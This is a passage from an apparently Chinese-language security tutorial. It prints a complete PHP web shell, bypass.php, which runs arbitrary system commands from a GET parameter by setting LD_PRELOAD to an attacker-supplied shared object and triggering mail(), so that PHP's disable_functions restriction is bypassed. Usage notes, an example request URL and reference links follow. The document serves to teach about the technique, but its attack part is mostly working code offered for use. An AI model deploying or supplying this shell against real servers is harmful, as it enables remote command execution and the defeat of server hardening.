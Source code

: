

bypass.php

```
<?php
    echo "<p> <b>example</b>: http://site.com/bypass_disablefunc.php?cmd=pwd&outpath=/tmp/xx&sopath=/var/www/bypass_disablefunc_x64.so </p>";
    $cmd = $_GET["cmd"];
    $out_path = $_GET["outpath"];
    $evil_cmdline = $cmd . " > " . $out_path . " 2>&1";
    echo "<p> <b>cmdline</b>: " . $evil_cmdline . "</p>";
    putenv("EVIL_CMDLINE=" . $evil_cmdline);
    $so_path = $_GET["sopath"];
    putenv("LD_PRELOAD=" . $so_path);
    mail("", "", "", "");
    echo "<p> <b>output</b>: <br />" . nl2br(file_get_contents($out_path)) . "</p>"; 
    unlink($out_path);
?>
```

1.  cmd 参数，待执行的系统命令（如 pwd）
2.  outpath 参数，保存命令执行输出结果的文件路径（如 /tmp/xx），便于在页面上显示，另外关于该参数，你应注意 web 是否有读写权限、web 是否可跨目录访问、文件将被覆盖和删除等几点；
3. sopath 参数，指定劫持系统函数的共享对象的绝对路径（如 /var/www/bypass_disablefunc_x64.so），另外关于该参数，你应注意 web 是否可跨目录访问到它。
4. 此外，bypass_disablefunc.php 拼接命令和输出路径成为完整的命令行，所以你不用在 cmd 参数中重定向了





```
bypass.php?cmd=pwd&outpath=/tmp/xx&sopath=/var/www/bypass_disablefunc_x64.so
```







## 0x04 参考链接

https://www.anquanke.com/post/id/175403

https://www.smi1e.top/php-bypass-disabled_functions/

https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD

https://www.tr0y.wang/2018/04/18/PHPDisalbedfunc/index.html